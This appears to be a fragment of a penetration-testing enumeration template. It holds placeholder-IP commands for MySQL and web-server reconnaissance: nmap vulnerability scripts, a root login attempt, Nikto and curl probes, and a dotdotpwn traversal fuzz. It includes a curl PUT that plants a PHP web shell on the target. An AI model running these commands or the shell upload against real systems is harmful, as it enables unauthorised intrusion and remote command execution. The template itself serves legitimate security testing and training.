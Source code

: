 ```
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse INSERTIPADDRESS -p 3306

mysql --host=INSERTIPADDRESS -u root -p
```

### Port 3339 - Oracle web interface


- Basic info about web service (apache, nginx, IIS)
- Server:
- Scripting language:
- Apache Modules:
- IP-address:

### Port 80 - Web server

- Server:
- Scripting language:
- Apache Modules:
- IP-address:
- Domain-name address:


INSERTCURLHEADER

- Web application (ex, wordpress, joomla, phpmyadmin)
- Name:
- Version:
- Admin-login:


```
# Nikto
nikto -h http://INSERTIPADDRESS

# Nikto with squid proxy
nikto -h INSERTIPADDRESS -useproxy http://INSERTIPADDRESS:4444

# Get header
curl -i INSERTIPADDRESS

# Get everything
curl -i -L INSERTIPADDRESS

# Check for title and all links
curl INSERTIPADDRESS -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl INSERTIPADDRESS -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix
```
